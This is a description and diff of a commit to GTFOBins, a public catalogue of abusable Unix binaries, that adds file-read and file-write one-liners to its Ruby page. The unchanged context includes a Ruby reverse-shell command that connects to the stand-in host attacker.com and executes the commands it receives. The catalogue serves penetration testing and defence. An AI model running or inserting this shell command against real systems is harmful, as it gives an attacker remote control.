

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ruby.md, in a window 1280 px wide. Shown: the whole page at 97% size, without its empty margins (208-1070 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1106 px from its top, so only the background shows below that.

Commit message:
Add read and write to python and ruby

```diff
--- a/_gtfobins/ruby.md
+++ b/_gtfobins/ruby.md
@@ -15,6 +15,10 @@ functions:
         export RHOST=attacker.com
         export RPORT=12345
         ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
+  file-read:
+    - code: ruby -e 'puts File.read("file_to_read")'
+  file-write:
+    - code: ruby -e 'File.open("file_to_write", "w+") { |f| f.write("data") }'
   load-library:
     - code: ruby -e 'require "fiddle"; Fiddle.dlopen("lib.so")'
 ---
```
Also changed, not shown: _gtfobins/python2.md (+4 -0 lines), _gtfobins/python3.md (+4 -0 lines).
